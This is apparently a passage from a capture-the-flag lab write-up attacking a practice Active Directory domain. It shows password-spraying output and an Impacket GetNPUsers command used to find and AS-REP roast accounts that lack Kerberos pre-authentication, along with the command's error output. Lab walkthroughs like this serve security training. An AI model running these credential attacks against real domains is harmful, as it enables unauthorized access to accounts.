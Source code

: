 2025/10/09 21:55:50 >  [!] "" - Bad username: blank
2025/10/09 21:55:50 >  [!] DARLA_WINTERS@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] TABATHA_BRITT@thm.corp:password.txt - Got AS-REP (no pre-auth) but couldn't decrypt - bad password
2025/10/09 21:55:50 >  [!] CHERYL_MULLINS@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] HORACE_BOYLE@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] 3811465497SA@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] CHRISTINA_MCCORMICK@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] LETHA_MAYO@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] MORGAN_SELLERS@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] Gu-gerardway-distlist1@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] AN-173-distlist1@thm.corp:password.txt - User does not exist
2025/10/09 21:55:50 >  [!] AUGUSTA_HAMILTON@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] MARION_CLAY@thm.corp:password.txt - Invalid password
2025/10/09 21:55:50 >  [!] 3966486072SA@thm.corp:password.txt - Invalid password
2025/10/09 21:55:51 >  [!] CH-ecu-distlist1@thm.corp:password.txt - User does not exist
2025/10/09 21:55:51 >  [!] TED_JACOBSON@thm.corp:password.txt - Invalid password
2025/10/09 21:55:51 >  [!] RAQUEL_BENSON@thm.corp:password.txt - Invalid password
2025/10/09 21:55:51 >  [!] TREVOR_MELTON@thm.corp:password.txt - Invalid password
2025/10/09 21:55:51 >  [!] LEANN_LONG@thm.corp:password.txt - Got AS-REP (no pre-auth) but couldn't decrypt - bad password
2025/10/09 21:55:51 >  [!] AUTOMATE@thm.corp:password.txt - Invalid password
2025/10/09 21:55:51 >  Done! Tested 64 logins (0 successes) in 0.297 seconds
root@ip-10-201-62-243:~# 

this tells me it may be ASREP roastable as pre auth isnt required to sign in to get a ticket we can use something like GETPNUsers for that in the same impacket folder im working out of conveniently enough

root@ip-10-201-62-243:/opt/impacket/examples# GetNPUsers.py thm.corp/ -usersfile fixednames.txt -dc-ip HAYSTACK
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax